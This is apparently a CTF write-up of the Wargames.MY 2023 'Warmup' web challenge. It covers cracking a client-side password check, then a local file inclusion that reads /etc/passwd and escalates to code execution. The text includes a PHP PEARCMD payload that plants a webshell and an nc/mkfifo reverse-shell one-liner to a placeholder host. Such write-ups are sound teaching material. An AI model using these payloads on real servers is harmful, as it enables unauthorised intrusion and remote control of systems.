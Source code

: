 # Warmup

<div class="hidden">
    keywords: Wargames.MY CTF 2023, web, php, RCE, LFI
</div>

## Series

1. **Warmup**
2. [Status](../status/)
3. [Secret](../secret/)

## TL;DR

LFI to RCE via PHP PEARCMD

## Initial Analysis

We are presented with an input box that asks for a password.

![webpage](./static/img-01.png)

The password checker is done on the client side via a minified javascript called
`script.min.js`.

![submit button](./static/img-02.png)

We can then deobfuscate the script with <https://deobfuscate.io/> which manage
to detect the matching obfuscator and redirects us to <https://obf-io.deobfuscate.io/>.

## Passing The Password Checker

Looking at the deobfuscated script, we can see that the password is
`this_password_is_so_weak_i_can_crack_in_1_sec!` and if we give this password,
it would reach out to `/api/4aa22934982f984b8a0438b701e8dec8.php` endpoint
and hopefully give us the flag.

```js
/* ... */
document.querySelector('button').addEventListener("click", _0x3ac921 => {
  _0x3ac921.preventDefault();
  if (document.querySelector("input").value === "this_password_is_so_weak_i_can_crack_in_1_sec!") {
    fetch("/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php").then(_0x5c12f5 => _0x5c12f5.text()).then(_0x509e6e => Swal.fire({
      'title': "Good job!",
      'html': _0x509e6e,
      'icon': "success"
    }));
  } else {
    Swal.fire({
      'title': "Oops...",
      'text': "wrong password",
      'icon': "error"
    });
  }
});
```

Unfortunately, there is no flag, but it mentioned about comment.

![correct popup](./static/img-03.png)

If we try to use `curl` to visit the endpoint, we could see there is an HTML
comment, but it is still not it.

```console
$ curl -s http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php
here's your flag <small>in comment</small> <!-- well, maybe not this comment -->
```

## LFI

Notice that the API endpoint accepts a filename for the parameter query `x`.
This almost screams LFI (local file inclusion) to me.

We can try to pass in `/etc/passwd` and we indeed get the file content

```console
$ curl -s http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
[...]
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
```

There are lots of filter implemented to deny us from accessing stuff like `procfs`
and wrappers such as `php://input`, `php://filter/convert`, `data://`, etc.

I was not able to bypass it but other participants managed to do it by:

- [double URL encoding (@Shen)](<https://hackmd.io/@Shenn/BkzLFNoIa>)
- [using zlib filter (@vicevirus)](https://vicevirus.github.io/posts/warmupweb-wgmy-2023/)

## LFI2RCE

In the end, I stumbled upon this [cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-php-pearcmd)
which allows us to get RCE with `PHP PEARCMD` which most probably satisfy the
prerequisite as most CTF challenges uses php image from docker registry.

This is the payload that I used:

```text
?+config-create+/&x=/usr/local/lib/php/pearcmd.php&/<?=system($_GET['c'])?>+/tmp/pir.php
```

![webshell](./static/img-04.png)

Next, we can use the uploaded webshell to execute arbitrary command

```console
$ curl -s 'http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=/tmp/pir.php&c=id'
#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/php";s:8:"data_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/data";s:7:"www_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/www";s:7:"cfg_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/cfg";s:7:"ext_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/ext";s:7:"doc_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/docs";s:8:"test_dir";s:70:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/tests";s:9:"cache_dir";s:70:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/cache";s:12:"download_dir";s:73:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/download";s:8:"temp_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/temp";s:7:"bin_dir";s:64:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear";s:7:"man_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/man";}
```

Since the output is duplicated many times, I tried to get reverse shell on the
remote server with this payload:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $NGROK_IP $NGROK_PORT >/tmp/f
```

![flag](./static/img-05.png)


flag: `wgmy{1ca200caa85d3a8dcec7d660e7361f79}`

On the next part of the [post](../status/), we will see that we actually gain a shell inside a
kubernetes pod and try to poke around with the this challenge deployment.

## References

- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-php-pearcmd>
